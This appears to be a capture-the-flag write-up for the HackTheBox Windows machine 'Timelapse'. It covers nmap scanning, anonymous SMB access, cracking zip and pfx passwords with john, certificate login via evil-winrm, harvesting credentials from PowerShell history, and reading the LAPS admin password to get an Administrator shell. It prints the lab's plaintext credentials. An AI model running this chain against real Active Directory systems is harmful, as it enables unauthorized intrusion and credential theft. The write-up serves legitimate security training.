- Machine Name: Timelapse
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Thu Apr 17 06:47:25 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up, received echo-reply ttl 127 (0.36s latency).
Scanned at 2025-04-17 06:47:26 EDT for 1497s
Not shown: 65519 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-17 19:09:59Z)
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
636/tcp   open  ldapssl?          syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
5986/tcp  open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2025-04-17T19:11:59+00:00; +7h59m46s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233:a199:4504:0859:013f:b9c5:e4f6:91c3
| SHA-1: 5861:acf7:76b8:703f:d01e:e25d:fc7c:9952:a447:7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49716/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32357/tcp): CLEAN (Timeout)
|   Check 2 (port 16472/tcp): CLEAN (Timeout)
|   Check 3 (port 22941/udp): CLEAN (Timeout)
|   Check 4 (port 20070/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-04-17T19:10:55
|_  start_date: N/A
|_clock-skew: mean: 7h59m45s, deviation: 0s, median: 7h59m45s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 07:12:23 2025 -- 1 IP address (1 host up) scanned in 1498.41 seconds
```

## Enumeration

### Port 139,445/SMB

the SMB is open on target machine i’ll start my enumeration from smb, always check for Null session on SMB

```bash
smbclient -L //10.10.11.152 -N 
```



i tried to connect to NETLOGN, but no listing access then i connected with Shares share and i found 2 directories Dev and HelpDesk



download all files using

```bash
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

then i tried to unzip the winrm_backup.zip file that i got from the dev directory 



it is password protected, let’s use the zip2john tool to get password hahs of the file then we can use the john to crack it

```bash
zip2john winrm_backup.zip > zip.hash
```



then crack hash using john

```bash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



nice we got the password, let’s open the winrm_backup.zip



i found this article https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx that says we can login with evil-winrm using pfx file first we need to extract pem and crt from it

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.pem
```



to crack the password i’ll be using `pfx2john` YESS john has utility to crack the pfx’s password hashes

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```

then i used the john to crack the hash

```bash
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



so now as we have the password let’s export the private key and cert from the pfx file

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.pem
```



it will ask you to enter PEM pass phrase, enter any password you want to encrypt private key with i’ll be using the same passpharese `thuglegacy` 

now let’s export cert using following command

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```

now convert it to rsa format using 

```bash
openssl rsa -in private.pem -out private2.pem
```

specify the pass phssphrase that you’ve entered while extracting pem file, i used the same `thuglegacy` as pass phrase



now let’s use evil-winrm to connect with private key and certificate

```bash
evil-winrm -i 10.10.11.152 -u 'dev' -k private2.pem -c cert.crt -p ''
```

but it is not connected so i checked performed bruteforce using kerbrute to see if the dev user exists or not



and i found dev user doesn’t exist in the system

so i tried using LDAP to enumerate users using `ldapsearch` 

```bash
ldapsearch -H ldap://10.10.11.152 -x -b "DC=timelapse,DC=htb"
```



No Success!, Nothing from rpcclient and enum4linux as well, now it’s all on guessing so if you noticed all password contains legacy thing so i put the legacyy, legacy, supremelegacy, thuglegacy and run the kerbrute again to see if any user is valid



Bingo! we got hit as legacyy let’s use this username in winrm

```bash
	evil-winrm -i 10.10.11.152 -u 'legacyy' -k private2.pem -c cert.crt -p ''
```

but command still not working, so i’ve searched for the key authentication in evil-winrm i found https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/ article that shows we can only specify -S option without username or password

 

```bash
evil-winrm -i 10.10.11.152 -k private2.pem -c cert.crt -S
```



### Way to Administrator

reading the powershell history file located at $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt i found the password of svc_deploy user

```bash
cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



so we found the valid set of credentials - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV` 

```bash
net user svc_deploy
```

let’s check the group membership of the svc_deploy user 



we found that svc_deploy is the member of `remote management users` great we can use winrm to login as svc_deploy

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

we use `-S` option to use secure SSL connection on port 5986 as port 5985 is not open we need to connect to secure (SSL) port



if we check the group membership of the svc_deploy user we found that the user is member of LAPS_Readesrs group



## LAPS (Local Administrator Password Solution)

The Local Administrator Password Solution (LAPS) is a tool designed to manage local account passwords for computers joined to a domain. It securely stores these passwords in Active Directory (AD), protected by Access Control Lists (ACLs), ensuring that only authorized users can access or reset them.

and the members of LAPS_Readers group can read the Local Admin password from the DC we can use Impacket-GetLAPSPassword or netexec let’s try both

using impacket-GetLAPSPassword:

```bash
impacket-GetLAPSPassword timelapse.htb/svc_deploy:'E3R$Q62^12p7PLlC%KWaxuaV' -dc-ip 10.10.11.152
```



using netexec:

```bash
netexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --module laps
```



now let’s use this password to login to DC as Administrator using PsExec!

```bash
impacket-psexec timelapse.htb/Administrator:'W3n+!P(Qj!3M6s;40@8(%G)8'@10.10.11.152
```



but it stucks, and not dropping the system shell

let’s use evil-winrm instead

```bash
evil-winrm -i 10.10.11.152 -u Administrator -p 'W3n+!P(Qj!3M6s;40@8(%G)8' -S
```



wait what no root.txt at the Administrator desktop, let’s use `tree` command from C:\Users directory

```bash
tree /a /f
```



OHH so root.txt is on TRX user’s desktop

